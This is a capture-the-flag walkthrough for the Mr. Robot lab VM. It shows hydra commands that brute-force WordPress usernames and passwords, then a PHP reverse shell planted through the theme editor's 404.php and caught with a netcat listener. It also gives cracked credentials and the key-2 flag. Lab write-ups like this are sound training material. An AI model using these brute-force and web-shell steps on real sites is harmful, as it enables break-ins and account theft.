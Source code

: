 ## MR.ROBOT  VM 

## Objective
Finding key 2

## Solution
from the previous result of nikto we know that there is a wpslogin.
let's open the login page in browser
type random username and pass and see how it respond.

![](invalidusername.png)

so it says invalid username .so let's first find a valid user name .
we got a .dic file from robot.txt ,we will use it but first remove any duplicate contents to speedup the bruteforce attack.

```
sort fsocity.dic | uniq >fsocity1.dic
```
now brute force for username using hydra.

```

hydra -f -vV -L fsocity1.dic -p random 10.10.10.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'


```


-f= to stop when one match is found.
-L = username
-p = pass(any random password we are not interested in it)
-F=fail when response is Invalid username.so success when there is no Invalid username message.

![](bruteforce.png)


result: username:elliot

let's try it on login page 
our previous "Invalid username" message is gone. 
now we will bruteforce using elliot as user and fsocity1.dic for password.


```

hydra -f -vV -l elliot -P fsocity1.dic 10.10.10.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'

```

![](bruteforceresult.png)


** password is :ER28-0652  **

let login using credential's .success.

Now we need to gain a reverse shell . i am going to use php-reverse shell from pentest monkey.
we just need to find a way to upload this code after editing it with our ip(10.10.10.2).

![](php.png)

first i tried to upload it through plugin by converting it to zip but it showed invalid plugin later after  searching it in appereance ->editor 404.php is there
i will use this to upload the php-reverse shell code.

![](404.png)



after uploading open terminal

```
nc -nlvp 1234

```

![](shell.png)


got shell.

now let's search


```
cd /home
ls
cd robot
ls

```
![](key2.png)

there we got our key 2 but we don't have previlage to open it but we also got a  passw file 
using google to decode the md5 file.
result:   password:abcdefghijklmnopqrstuvwxyz

now login to vm using credentials

```
ls
cat key-2-of-3.txt
```
![](ckey2.png)

key2=822c73956184f694993bede3eb39f959






